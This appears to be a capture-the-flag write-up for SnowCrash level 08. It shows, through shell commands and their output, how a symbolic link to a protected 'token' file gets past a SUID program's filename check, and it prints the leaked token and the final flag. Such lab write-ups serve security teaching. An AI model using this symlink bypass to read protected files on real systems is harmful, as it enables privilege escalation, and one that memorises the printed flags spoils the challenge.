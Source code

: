 # Level08

In this level we 2 files. An executable and a file called `token` int which we don't have permissions.
This program reads a file as long as his name is different from `token`. So we have try to create a `symbolic link` of this file to get his content.  
The only person who has access to this file is flag08. It's good because we have (again) the SUID activated.  
So the file will be read by the program even if we haven't permissions. 

```bash
level08@SnowCrash:~$ ln -sf "./token" "/tmp/file"
level08@SnowCrash:~$ ./level08 /tmp/file
level08: Unable to open /tmp/file2: No such file or directory
```
We have a problem but we thinking we are in the good way.  

```bash
level08@SnowCrash:~$ ls -la /tmp/file
lrwxrwxrwx 1 level08 level08 7 May 18 04:09 /tmp/file -> ./token
```

We can see that our symbolic link is not correct. The redirection is to a file with an incorrect path. We can try with an `absolut path`:  

```bash
level08@SnowCrash:~$ ln -sf "${PWD}/token" "/tmp/file"
level08@SnowCrash:~$ ./level08 /tmp/file
quif5eloekouj29ke0vouxean
```

It's working ! We can access to `flag08` to get the flag.  

```bash
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag 
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
